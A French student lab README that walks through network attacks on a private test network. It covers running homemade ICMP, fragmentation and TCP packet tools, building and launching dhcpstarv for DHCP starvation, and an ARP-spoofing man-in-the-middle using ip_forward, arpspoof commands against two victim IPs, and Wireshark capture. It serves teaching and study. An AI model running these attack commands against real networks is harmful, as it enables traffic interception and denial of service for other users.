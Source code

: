 # tp2-cs
# Implémentation d’attaques 
## my_ping.c
générer un paquet IP echo
```cpp
#cc -c my_ping.c  pour compiler
#cc my_ping.c –o myping  pour générer l’exécutable
#./myping 192.168.1.1 192.168.1.2 500
```
on utilise WireShark pour observer le résultat
![Capture d’écran 2021-12-15 171321](https://user-images.githubusercontent.com/85891554/148665145-56037a0f-bb84-4eee-8b6e-a0748db8c4a5.png)
## pingsur2frag.c
faire un ping avec une taille de 2000 octets sur le lien ethernet
```cpp
#cc -c pingfragments.c  pour compiler
#cc pingfragments.c –o pf  pour générer l’exécutable
#./pf 192.168.1.1 192.168.1.2 2000
```
on utilise WireShark pour observer les différents champs des fragments IP

![Capture d’écran 2021-12-15 223506](https://user-images.githubusercontent.com/85891554/148665162-ecd0f98a-ac07-407d-9c88-d8e7cc702886.png)

## pingfragments.c
compiler et générer l’exécutable
```cpp
#cc -c pingsur2frag.c  pour compiler
#cc pingsur2frag.c –o psf  pour générer l’exécutable
#./psf 192.168.1.1 192.168.1.2 2000
```
observer le resultat 

![Capture d’écran 2021-12-15 223124](https://user-images.githubusercontent.com/85891554/148665177-ff62961a-6ffc-4309-9684-715f2faa3b0e.png)

## demandeconntcp.c
compiler et générer l’exécutable
```cpp
#cc -c demandeconntcp.c  pour compiler
#cc demandeconntcp.c –o dct  pour générer l’exécutable
#./dct 192.168.1.1 192.168.1.2 2000
```
resultat : 

![Capture d’écran 2021-12-15 224322](https://user-images.githubusercontent.com/85891554/148665179-df29fd77-6cdb-482d-a5d2-62764d10ed86.png)

# Test de quelques outils d’attaques2
## DHCP starvation

L’attaquant inonde le serveur DHCP avec des messages DHCPREQUEST afin de réserver toutes les adresses IP disponibles sur le serveur DHCP. L’attaquant doit utiliser une nouvelle adresse MAC pour chaque requête 

## Manipulation :
```cpp
#tar –xvf dhcpstarv-0.2.1.tar.gz
```
![Capture d’écran 2021-12-20 143228 (2)](https://user-images.githubusercontent.com/85891554/148682658-4aa374db-60dd-4e24-af09-faf6207a4876.png)
```cpp
#cd dhcpstarv-0.2.1
#./configure
```
![Capture d’écran 2021-12-30 131121](https://user-images.githubusercontent.com/85891554/148682702-642c7f90-0ccf-4d79-bdc7-473fa0c3085f.png)
```cpp
#make
```
![Capture d’écran 2022-01-09 134601](https://user-images.githubusercontent.com/85891554/148682745-d222fb6c-a63f-479c-b578-031b1a8c1277.png)
```cpp
#make install 
```
![Capture d’écran 2022-01-09 134631](https://user-images.githubusercontent.com/85891554/148682750-00da8427-69b5-4046-ade8-6229e73eaa12.png)

Sur une autre machine, on a configurer le serveur DHCP
_ configuration du dhcp _

![Capture d’écran 2022-01-09 135330](https://user-images.githubusercontent.com/85891554/148683028-cbb5c56d-1a0e-49c3-9c7d-2fda018eac72.png)
on lance l attaque
```cpp
#sudo dhcpstarv -i eth0
```
![WhatsApp Image 2022-01-09 at 1 34 42 PM](https://user-images.githubusercontent.com/85891554/148684372-426ee539-375c-431b-9caa-86e8efd28704.jpeg)
on observe sur WireShark l'envoie des demandes dhcp (dhcp discover)

![Capture d’écran 2022-01-09 135533](https://user-images.githubusercontent.com/85891554/148683036-7fe8905c-ab02-4d9f-8370-9c0ecd4f64a5.png)

l'assignment des adresses ip

![Capture d’écran 2022-01-09 135433](https://user-images.githubusercontent.com/85891554/148683039-c7dfe30d-00f1-4ff3-ad4b-b6bf9d416c74.png)

# Attaque “Man In The Middle” basée sur l'attaque “ARP spoofing”

Pour réaliser cette attaque, nous avons besoin de trois nœuds connectés à un switch (cas réel ou sur 
GNS3) ou à un point d'accès sans fil. Le nœud attaquant sera la machine sur laquelle est installé le 
système d'exploitation « Kali Linux »

> les tables arp avant l'attaque 
![WhatsApp Image 2022-01-09 at 1 34 41 PM (1)](https://user-images.githubusercontent.com/85891554/148683986-43cd377d-b2d6-4ffa-9faa-92c455682e79.jpeg)
## Etape 1 : activer le routage dans le nœud attaquant (Kali Linux)
Tester si le routage est activé en utilisant la commande sysctl ou en cherchant la valeur de ip_forward
dans /proc/sys/ipv4

```cpp
Root# sysctl net.ipv4.ip_forward
net.ipv4.ip_forward = 0
```
Activer le routage :
 ```cpp
 root# sysctl -w net.ipv4.ip_forward=1
 ```
 ![WhatsApp Image 2022-01-09 at 1 34 40 PM](https://user-images.githubusercontent.com/85891554/148683977-f164ced7-6431-496b-b188-84eca5fa7282.jpeg)
 ## Etape 2 : empoisonner les tables ARP des nœuds victimes
 Lancer une communication entre les deux nœuds légtimes (exemple : ping) puis afficher le contenu de 
leur table arp (arp -a). Exécuter, ensuite, l'attaque arpspoof.

```cpp
root#arpspoof -i eth0 -t 192.168.1.3 192.168.1.4
root#arpspoof -i eth0 -t 192.168.1.4 192.168.1.3
```
![WhatsApp Image 2022-01-09 at 1 34 39 PM](https://user-images.githubusercontent.com/85891554/148683990-821599f6-b064-40c2-aa23-ed6c57d0dc78.jpeg)
on utilise Wireshark pour afficher le trafic capturé par l'attaquant
```cpp
root#wireshark
```
![WhatsApp Image 2022-01-09 at 1 34 41 PM](https://user-images.githubusercontent.com/85891554/148683982-89957d90-bcec-4a83-b30d-ee870fa679ca.jpeg)
les tables arp apres l'attaque 

![WhatsApp Image 2022-01-09 at 1 34 41 PM (2)](https://user-images.githubusercontent.com/85891554/148684361-d9e26b60-781f-406c-b538-43345a2a8517.jpeg)

